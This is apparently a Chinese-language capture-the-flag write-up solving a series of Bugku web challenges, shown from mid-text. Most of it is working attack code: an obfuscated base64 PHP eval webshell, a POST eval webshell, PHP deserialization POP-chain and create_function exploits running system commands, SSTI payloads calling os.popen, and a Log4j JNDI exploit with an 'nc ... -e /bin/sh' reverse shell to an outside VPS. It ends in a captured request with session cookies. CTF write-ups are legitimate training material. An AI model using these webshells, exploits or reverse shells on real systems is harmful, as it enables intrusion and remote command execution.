ZOYXlweUtMQnNCaXQxeWdMeUtrUzN4Z1BZQ3VMSW9JUlZLQnBWd09QY0NsU3lEalBIeXN0Snhjb0JQekJKRVZ2SVJTUzFBZlBtQWlDdUNQU1ZNeG5CRXpvdTFMTDF5UHBWb3RQMnh1UDBSSEN1UFp0SjV4UHV0bVBJUlNTMkNVTEoxa3Bzb1Z1UHhEU0lvcXBVNVlQUEtTUEJSemVzNVBlY0VQUHNFckJQb2xTMDFhUk41bXBJbzRtQnhsUjJDVlBtSWtuMEV6QllJTm0wMGZ1SjFvUFVFUXVtQ0xteVJHdklQQ1B1dFFQTjVycFBuZnVzUkN1SW80RzJpU0NOVWl2SUl4TFVBMVBOYU5QdVB1dVlNc1Nzb2x1c3ZpQ3MxVm1zRVluMXk1b1VQU0NKUEl2SVJRUEJvUG1QUHNlUEVxbXlJb3BKdDZQQlBnZU5QUG9OYW10VUt0R1lDWWVQeWF0Skt1dGZiNUx1SzBwTnRhdEhDZGIyblhCTnlZUkJLSVNOeWh0MUFqQllJdXZ5S1BQc1BrdHNLWkcweHNleXlHTEoxa3BJS1NHWUlMUEluanBOS1BMSUtYQm1Jc3ZQSWFwY29QUGh4eG9CUFNtSnRHcFZ0dFBtUDRCMmc0cDBLSXBWb29ueW9VR0o1TlAxbmp6QlJ4bjBLZlB1MWpQeVBJUEphQnB1eGxvSW96bXlDV0xZb2tQdWJPUHNQNEN1dFZwVktTbjBFeFAxUnJCeVJJU04xTExOdEdvQlJJcDBLSUJKS29wSml0UE41bHV5QmpSY0lMUEI0T3V5UjBMeW9ndlZDQm5Cb1ZQc0JpbjFEaVNWTWtTMG9hdVB2NUxQS0F2Vnh4dHV0R1B1NXJtdW5PbkJhdHBoTXVvVXhIcDBLSVNOMXNQczVaUElQckJOUFZTVm9zcHNEakdKMGl1SlBhUklvTG5JS05QMjV6dklFTlNjUG1TMmlmdXVhMHRJR092VlJ1UzN4dFBzeHNTSkNoUEp4QlMwb211c29JdjBLVlJOS3NuVnRLUG1Fc3AxR09wY29oUFBHaUJQUHN0UGJpQnNSb1B1eG9QUG9ybk5FV2VjUHRwaHhkRzBQekxKRWhQSElZbjBLUW9OaWplSVBOUHlSeXQxS3p1c3Y0dkIxS1MzQ3J0UEVxdXU1Z0JQdFpieUtQblZiaUJ5UHpueUtoUlVLdXBWTWZQY0lOdDFvSW5tQ1NudXhqR0phTnBQeWh6QnlTTFZNNEdCUHN1SVBaTHMxWW5ZSWRCdTFqUEp0QW8yOXJ0dXhhb0lvenB5dFBMeU15dDJ4Mm9ONXJuTkVhblBLeXBodHVCWU1TdHlSWm1ITUx0SkYxQjJhZ3YxeVdSVXR1bkhNM1BKYTRCUG9Bb05LWVAxb0RQTmFOQjFLTnRoQ3J0M3Rxb2NNMFNQQk9vTjl1bkpqMlAxUHVuUElQb1VQQm5QRVZ1UFBEdVBQdUxZTWtTM0YxQnUxNEwyQ0ltc0trUDFvaUdmQ3JtMnRndlZ4UHR5b2hvQlJTbXlLVnpWQ3J0M3Rxb2NNMFNQQk9vTjl1bkpqMlAxUHVuUElQb1VQQm5QRVZ1UFBEdVBQdUxZTWtTM0YxQnUxNEwyQ0ltc0trUDFvaUdmQ3JtMnRndlZ4UHR5b2hvQlJTbXlLVnpWTW5iMUVJdW1FckNQUElDaFJoUHM1bm9JUHV0TnRhUEhFbVB5S3hHc0I1QnlFZ0JzNXNuSnRvR1B2MWJ5S2F0SG9tdDFBMkcxUkRMSUdpTEh5QkxVNTBCMmFydlBvR0JZdGRiMUVFdUo1dVBJRGpuQkNCbjJ4WEdZQ1NldXRWQ2h0aHVWTU9QeVBzdDFFdXZWS3hQUEVvb1BQakxKRVZMc2l0bnV0aUcwb1NtUFBOQllDb24wb2d1UEIxYnlQYUJ5RW50VUlmTHNSMFNKYmpSTnlQbkp0WFBZRWdDeVJQUFlJdFB1dElQY0lMdDF5UFNJeVBQc0RqR0phNENQSWFlVWFZdEI1ckd5UnV2dW5mTHM5c3BWTTRQQm91UDJQVnVzNVN0ZnhqTDFDV3ZVOTNRbTBrckxzN1FmND0iO2V2YWwoJz8+Jy4kQndsdHFPWWJIYVFrUlBOb3hjZm5GbXpzSWpoZE1EQVdVZUtHZ3ZpVnJKWnBMdVhFVFN5QygkaFlYbFRnQnFXQXBPYnhKdmVqUFJTZEhHUW5hdURpc2ZFTklGeW9jcmtVTHdtS01DdFZ6Wigkdk53VE9zS1BFQWxMY2lKREJoV3RSU0hYZW1wSXJqeVFVdUdvYWtuWUNkRnpxWk14ZmJnVigkTnZpdXl3Q2VQV0VHbGFjQW1manJnQk1UWVh6SFpwSXhEcVFuc1VLa2hvdEZTT1JkVkpMYiwkY2lNZlRYcFBvSkh6WkJ4TE92bmdqUUNiZElHa1lsVk5TdW1GckFVZVdhc0t5RXR3aERxUioyKSwkdk53VE9zS1BFQWxMY2lKREJoV3RSU0hYZW1wSXJqeVFVdUdvYWtuWUNkRnpxWk14ZmJnVigkTnZpdXl3Q2VQV0VHbGFjQW1manJnQk1UWVh6SFpwSXhEcVFuc1VLa2hvdEZTT1JkVkpMYiwkY2lNZlRYcFBvSkh6WkJ4TE92bmdqUUNiZElHa1lsVk5TdW1GckFVZVdhc0t5RXR3aERxUiwkY2lNZlRYcFBvSkh6WkJ4TE92bmdqUUNiZElHa1lsVk5TdW1GckFVZVdhc0t5RXR3aERxUiksJHZOd1RPc0tQRUFsTGNpSkRCaFd0UlNIWGVtcElyanlRVXVHb2FrbllDZEZ6cVpNeGZiZ1YoJE52aXV5d0NlUFdFR2xhY0FtZmpyZ0JNVFlYekhacEl4RHFRbnNVS2tob3RGU09SZFZKTGIsMCwkY2lNZlRYcFBvSkh6WkJ4TE92bmdqUUNiZElHa1lsVk5TdW1GckFVZVdhc0t5RXR3aERxUikpKSk7")); ?>
```

这玩意，估计是要分解然后不知道咋整了

```php
<?php
highlight_file(__FILE__);
@eval($_POST[ymlisisisiook]);
?>
```

链接之后发现不能动，这一看就是绕过`disable_function`，但是这里我的文件好像是被删除了，所以我重新下载了一下(挂代理，不然卡死你)



```
.antproxy.php
```

密码还是之前那个，链接就好了

# 点login咋没反应

查看源代码拿到源码

```php
<?php
error_reporting(0);
$KEY='ctf.bugku.com';
include_once("flag.php");
$cookie = $_COOKIE['BUGKU'];
if(isset($_GET['16584'])){
    show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{   
    echo "$flag";
}
else {
?>

<?php
}
?>
```

```php
<?php
$payload="ctf.bugku.com";
echo serialize($payload);
```

# Simple_SSTI_1

```
http://114.67.175.224:12287/?flag={{g.pop.__globals__.__builtins__['__import__']('os').popen('env').read()}}
```

# 兔年大吉2

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __call($name, $arguments)
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        die("Wishes can be fulfilled");
    }
}

class Nevv{
    private $happiness;

    public function __invoke()
    {
        return $this->happiness->check();
    }

}

class Rabbit{
    private $aspiration;
    public function __set($name,$val){
        return $this->aspiration->family;
    }
}

class Year{
    public $key;
    public $rabbit;

    public function __construct($key)
    {
        $this->key = $key;
    }

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }

    public function __get($name)
    {
        $name = $this->rabbit;
        $name();
    }

    public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
}

if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
}else {
    echo "过新年啊~过个吉祥年~";
}
?> 过新年啊~过个吉祥年~
```

终于来了pop链

```
Year::destruct->Year::firecrackers->Rabbit::set->Year::get->Nevv::invoke->Happy::call->getshell
```

写exp

```php
<?php

class Happy{
    public $cmd;
    public $content;
}

class Nevv{
    public $happiness;

}

class Rabbit{
    public $aspiration;
}

class Year{
    public $key;
    public $rabbit;
}
$a=new Year();
$a->key="happy new year";
$a->rabbit=new Rabbit();
$a->rabbit->aspiration=new Year();
$a->rabbit->aspiration->rabbit=new Nevv();
$a->rabbit->aspiration->rabbit->happiness=new Happy();
$a->rabbit->aspiration->rabbit->happiness->cmd="system";
$a->rabbit->aspiration->rabbit->happiness->content="whoami";
echo serialize($a);
```

但是这样子肯定打不通，因为是private

```php
<?php
class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }
}

class Nevv{
    private $happiness;
    public function __construct($happiness){
        $this->happiness = $happiness;
    }

}

class Rabbit{
    private $aspiration;
    public function __construct($aspiration){
        $this->aspiration = $aspiration;
    }
}

class Year{
    public $key="happy new year";
    public $rabbit;
}
$b=new Year();
$c=new Rabbit($b);

$e=new Happy("system","tac /flag");
$d=new Nevv($e);

$a=new Year();
$a->rabbit=$c;
$b->rabbit=$d;
echo urlencode(serialize($a));
```

这样子就可以了，还是第一次写这种，之前我都是用replace正向替换的

# unserialize-Noteasy

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

这看着就像是create_function注入

```php
<?php
class Noteasy
{
    private $a;
    private $b;

    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
// $a=new Noteasy("create_function",";}system('l\s');/*");
$a=new Noteasy("create_function",";}system('tac flag');/*");
echo urlencode(serialize($a));
```

# Simple_SSTI_2

```
http://114.67.175.224:12259/?flag={{x()._module.__builtins__['__import__']('os').popen('cat flag').read()}}
```

# 闪电十六鞭

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

```php
<?php
$exam = 'return\''.sha1(time()).'\';';
var_dump($exam);
```

得到是49位

我们先绕过关键字

```
flag=$a='fla9';$a[3]='g';
```

然后再用自定义字符来绕过哈希，其中别忘了闭合eval

```
http://114.67.175.224:11972/?flag=$a='fla1';$a{3}='g';?><?=$$a;?>111111111111111111
```

# 安慰奖

先看源码，然后扫描拿到源码`index.php.bak`

```php
<?php

header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf
{
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username,$cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup()
    {
        $this->username = 'guest';
    }

    function __destruct()
    {
        if(preg_match("/cat|more|tail|less|head|curl|nc|strings|sort|echo/i", $this->cmd))
        {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin')
        {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        }else
        {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}
    $select = $_GET['code'];
    $res=unserialize(@$select);
?>
```

只需要绕过一下wakeup就好了

```php
<?php
class ctf
{
    protected $username ;
    protected $cmd ;
    public function __construct($cmd,$username){
        $this->cmd=$cmd;
        $this->username =$username;
    }
}
$a=new ctf('ls','admin');
# echo serialize($a);
echo urlencode(serialize($a));
```

```
http://114.67.175.224:18318/?code=O%3A3%3A%22ctf%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A6%3A%22%00%2A%00cmd%22%3Bs%3A6%3A%22tac+f%2A%22%3B%7D
```

# decrypt

```php
<?php
$key = md5('ISCC');
$x = 0;
$base64_str = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=';
$data = base64_decode($base64_str);
$len = strlen($data);
$char = '';
$str = '';
$klen = strlen($key);
for ($i=0; $i < $len; $i++) {
    if ($x == $klen)
    {
        $x = 0;
    }
    $char .= $key[$x];
    $x+=1;
}
for ($i=0; $i < $len; $i++) {
    if (ord($data[$i]) > ord($char[$i])) {
        $str .= chr(ord($data[$i]) - ord($char[$i]));
    }
    else{
        $str .= chr (128+ord($data[$i])-ord($char[$i]));
    }
    print($str."\n");
}
?>
```

# Apache Log4j2 RCE

```
https://github.com/welk1n/JNDI-Injection-Exploit
```

```
git clone https://github.com/welk1n/JNDI-Injection-Exploit.git

1.cd JNDI-Injection-Exploit
2.mvn clean package -DskipTests
3.java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "命令" -A "VPS_IP"

java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 156.238.233.93 9999 -e /bin/sh" -A "156.238.233.93"

```

中途我的mvn配置文件还不对，搞好一会儿

先用bp的DNSLOG进行探测一下

```
${jndi:ldap://roj1ec4qvt9q7rfcigcrnaen9ef43t.oastify.com}
```



说明存在



```
${jndi:[攻击payload]}
${jndi:ldap://156.238.233.93:1389/ujydjs}
用户名或密码错误，次数 87
```

一直弹不上，有没有师傅弹上的评论区娇娇

---

摇人了，找了**Anyyy**师傅，这里说的要在vps上面进行

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 156.238.233.93 9999 -e /bin/sh" -A "156.238.233.93"

${jndi:ldap://156.238.233.93:1389/gykkfc}
```



成功了

# newphp

```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
highlight_file(__FILE__);

class evil{
    public $hint;

    public function __construct($hint){
        $this->hint = $hint;
    }

    public function __destruct(){
    if($this->hint==="hint.php")
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        var_dump($this->hint);
    }

    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;

    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data){
    global $tmp;
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    $tmp = $data;
}

function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}

$tmp = "test";
$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is',$a))
    die("NoNoNo!");

unserialize(read(write($a)));
```



字符逃逸这里每次能逃逸三个字符，现在就是利用反序列化去得到`hint`

```php
<?php
class evil{
    public $hint='hint.php';
}
$a=new evil();
echo serialize($a);
```

先这么写出来，稍微修改一下源码看看怎么替换的

```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
highlight_file(__FILE__);

class evil{
    public $hint;

    public function __construct($hint){
        $this->hint = $hint;
    }

    public function __destruct(){
        if($this->hint==="hint.php")
            @$this->hint = base64_encode(file_get_contents($this->hint));
        var_dump($this->hint);
    }

    function __wakeup() {
        if ($this->hint != "╭(●｀∀´●)╯") {
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮";
        }
    }
}

class User
{
    public $username;
    public $password;

    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data){
    global $tmp;
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    $tmp = $data;
}

function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}

$tmp = "test";
$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
echo $a."\n\n";
if(preg_match('/flag/is',$a))
    die("NoNoNo!");

unserialize(read(write($a)));
$b=read(write($a));
echo $b;

/*
O:4:"User":2:{s:8:"username";s:6:"\0\0\0";s:8:"password";s:41:"O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}";} 
O:4:"User":2:{s:8:"username";s:6:"*";s:8:"password";s:41:"O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}";}
```

```
";s:8:"password";s:41:
# 这里是22个字符
```

为了补齐，我们慢慢调试

```
O:4:"User":2:{s:8:"username";s:6:"*";s:8:"password";s:44:"1";O:4:"evil":2:{s:4:"hint";s:8:"hint.php";}";}

";s:8:"password";s:44:"1
# 这里就是24个字符了
```

```
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=1";O:4:"evil":2:{s:4:"hint";s:8:"hint.php";}
```

```php
<?php
 $hint = "index.cgi";
 // You can't see me~

```

到了这里发现可以任意文件读取，只不过需要我们`%0a`命令执行一下

```
http://114.67.175.224:13015/index.cgi?name=%0afile:///flag
```

# sodirty

这里扫描拿到源码

```js
var express = require('express');
const setFn = require('set-value');
var router = express.Router();


const Admin = {
    "password":process.env.password?process.env.password:"password"
}


router.post("/getflag", function (req, res, next) {
    if (req.body.password === undefined || req.body.password === req.session.challenger.password){
        res.send("登录失败");
    }else{
        if(req.session.challenger.age > 79){
            res.send("糟老头子坏滴很");
        }
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        if(Admin[key] === password){
            res.send(process.env.flag ? process.env.flag : "flag{test}");
        }else {
            res.send("密码错误，请使用管理员用户名登录.");
        }
    }

});
router.get('/reg', function (req, res, next) {
    req.session.challenger = {
        "username": "user",
        "password": "pass",
        "age": 80
    }
    res.send("用户创建成功!");
});

router.get('/', function (req, res, next) {
    res.redirect('index');
});
router.get('/index', function (req, res, next) {
    res.send('<title>BUGKU-登录</title><h1>前端被炒了<br><br><br><a href="./reg">注册</a>');
});
router.post("/update", function (req, res, next) {
    if(req.session.challenger === undefined){
        res.redirect('/reg');
    }else{
        if (req.body.attrkey === undefined || req.body.attrval === undefined) {
            res.send("传参有误");
        }else {
            let key = req.body.attrkey.toString();
            let value = req.body.attrval.toString();
            setFn(req.session.challenger, key, value);
            res.send("修改成功");
        }
    }
});

module.exports = router;
```

一进来看到`set-value`



可以能行污染，这里我们先污染age再污染密码，这里写exp，手动污染一直不成功

```python
import requests
s=requests.Session()
url="http://114.67.175.224:16250/"
def reg(url):
    url=url+"reg"
    r=s.get(url)
    print(r.text)

def update(url,data):
    url=url+"update"
    r=s.post(url,data=data)
    print(r.text)

def getflag(url,data):
    url=url+"getflag"
    r=s.post(url,data=data)
    print(r.text)
reg(url)
data={"attrkey":"age","attrval":"18"}
update(url,data)
data={"attrkey":"__proto__.pwd","attrval":"wi"}
update(url,data)
data={"password":"wi","key":"pwd"}
getflag(url,data)
```

诶有师傅可能会像我一样想着最后两步是怎么回事，代码看看就知道了



# Java EL表达式注入

进来之后抓包得到`source.zip`

```http
POST /updateSysSetting HTTP/1.1
Host: 114.67.175.224:14902
Content-Length: 93
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json;charset=UTF-8
Origin: http://114.67.175.224:14902
Referer: http://114.67.175.224:14902/system-base.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D; BUGKU=s:13:"ctf.bugku.com"; connect.sid=s%3A478RrwhL0Ye-o8q96b9ULtxrdrs6WqLv.7ispJfiYcU6CmcvWVtS7DmyGugH6nAz44mGI%2BPEuYMA; Hm_lvt_080836300300be57b7f34f4b3e97d911=1731934744; HMACCOUNT=405D29F9AFFEA4E6; Hm_lpvt_080836300300be57b7f34f4b3e97d911=1731934972
Connection: close

